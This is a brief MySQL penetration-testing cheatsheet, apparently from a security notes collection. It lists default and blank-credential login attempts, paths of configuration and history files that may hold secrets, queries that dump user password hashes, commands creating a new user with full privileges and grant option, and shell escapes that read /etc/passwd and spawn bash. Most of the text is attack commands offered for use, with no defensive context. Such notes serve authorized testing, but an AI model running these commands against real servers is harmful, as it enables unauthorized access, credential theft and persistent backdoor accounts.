 # Cheatsheet

## Connection tests
```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
mysql -h <Hostname>
mysql -h <Hostname> -u ""@localhost
```

## Configuration files
```
windows

config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/

UNIX

/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf
```

Command history
```
~/.mysql.history
```

Log files:
```
connections.log
update.log
common.log
```

## Privilege Escalation

Current access level:
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```

Access passwords:
```
mysql> use mysql
mysql> select user,password from user;
```

Create new user and grant permissions:
```
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

Break into shell:
```
mysql> \! cat /etc/passwd
mysql> \! bash
```

